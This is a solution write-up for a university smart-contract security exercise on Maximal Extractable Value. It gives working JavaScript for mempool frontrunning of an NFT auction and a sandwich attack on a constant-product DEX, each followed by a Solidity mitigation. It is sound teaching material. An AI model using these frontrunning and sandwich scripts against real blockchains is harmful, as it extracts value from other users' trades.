 # Smart Contracts Exercise 08: Maximal Extractable Value -- Solution

The solved Exercise 08 - Maximal Extractable Value can be found in this [GitLab repository](https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/08-Maximal-Extractable-Value/solution/solution-code?ref_type=heads).

## Solution to Task 1: NFT Auction Frontrunning

The solution employs the following strategy:

1. Monitor the mempool for the `endAuction()` transaction
2. Extract the gas parameters from the pending transaction
3. Submit our bid with higher gas parameters to ensure it gets mined first
4. Wait for our bid and the `endAuction()` transaction to be mined
5. Claim the NFT

```javascript
// See the mempool
pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  auction,
  "endAuction"
);
const frontrunTx = {
  to: auction.target,
  data: auction.interface.encodeFunctionData("bid"),
  value: ethers.parseEther("1.5") + 1n, // Bid 1.5 ETH + 1 wei
  type: 2, // EIP-1559 transaction
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + 1000000000n, // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + 1000000000n, // +1 Gwei
  gasLimit: 500000, // Ensure enough gas is provided
};

// Send our frontrunning transaction
await player.sendTransaction(frontrunTx);
console.log("Player sent frontrunning transaction");
```

### Possible Mitigation

**Commit-Reveal Schemes**: Users first submit a hash of their bid (commit), and later reveal the actual bid value. This prevents frontrunning since the actual bid values aren't visible in the mempool.

```solidity
function commitBid(bytes32 bidHash) external {
    commitments[msg.sender] = bidHash;
}

function revealBid(uint value, bytes32 secret) external payable {
    bytes32 commitment = keccak256(abi.encodePacked(value, secret));
    require(commitments[msg.sender] == commitment, "Invalid commitment");
    // Process the actual bid here
}
```

## Solution to Task 2: Sandwich Attack on a DEX

The vulnerability stems from how Automated Market Makers (AMMs) like SimpleDEX determine prices using the constant product formula (x · y = k). When a large swap occurs, it significantly moves the price, creating profitable opportunities for attackers who can manipulate transaction ordering. The SimpleDEX contract implements the standard AMM functionality:

```solidity
function ethToUsdc() public payable returns (uint usdcBought) {
    // Ensure the pool has liquidity before attempting a swap
    require(usdcReserve > 0 && ethReserve > 0, ZeroReserves());

    uint ethSold = msg.value;
    uint inputWithFee = ethSold * 997;

    // Calculate USDC output using constant product formula with fee: 
    // (x + dx * 0.997) * (y - dy) = x * y
    // where: x = ethReserve, y = usdcReserve, dx = ethSold, dy = usdcBought
    usdcBought = (inputWithFee * usdcReserve) / ((ethReserve * 1000) + inputWithFee);

    // Ensure the swap produces a meaningful amount of output tokens
    require(usdcBought > 0, InsufficientUsdcPurchase());

    // Transfer the USDC tokens to the user
    usdcToken.transfer(msg.sender, usdcBought);

    usdcReserve -= usdcBought;
    ethReserve += ethSold;

    // Emit event for off-chain tracking and transparency
    emit EthPurchase(msg.sender, usdcBought, ethSold);

    return usdcBought;
}
```

The sandwich attack consists of three steps:

1. **Frontrun**: Buy tokens (swap ETH for USDC) before the victim's transaction, increasing the price
2. **Victim transaction**: Let the victim's swap execute at the now-worse price
3. **Backrun**: Sell the tokens (swap USDC back to ETH) after the victim's transaction, when the price is even higher

```javascript
// See the mempool
const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
const targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  simpleDEX,
  "ethToUsdc"
);

// Calculate ETH to use (all player's ETH minus some for gas)
const gasBuffer = ethers.parseEther("0.01"); // Keep 0.01 ETH for gas costs
const frontrunAmount = PLAYER_INITIAL_ETH - gasBuffer;
console.log(
  `\nExecuting frontrun: swapping ${ethers.formatEther(
    frontrunAmount
  )} ETH for USDC...`
);

const frontrunTx = await simpleDEX.connect(player).ethToUsdc({
  value: frontrunAmount,
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + BigInt(1000000000), // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + BigInt(1000000000), // +1 Gwei
});

mine(1);

// backrun the transaction
const backrunAmount = await usdcToken.balanceOf(player.address);
await usdcToken.connect(player).approve(simpleDEX.target, backrunAmount);
await simpleDEX.connect(player).usdcToEth(backrunAmount);
```

### Possible Mitigation

DEX should support slippage tolerance to protect against significant price movements. If the price moves beyond the tolerance, the transaction reverts.

```solidity
function ethToUsdcWithSlippage(uint minUsdcOut) external payable {
    uint usdcBought = calculateOutput(msg.value);
    require(usdcBought >= minUsdcOut, "Slippage exceeded");
    // Execute the swap
}
```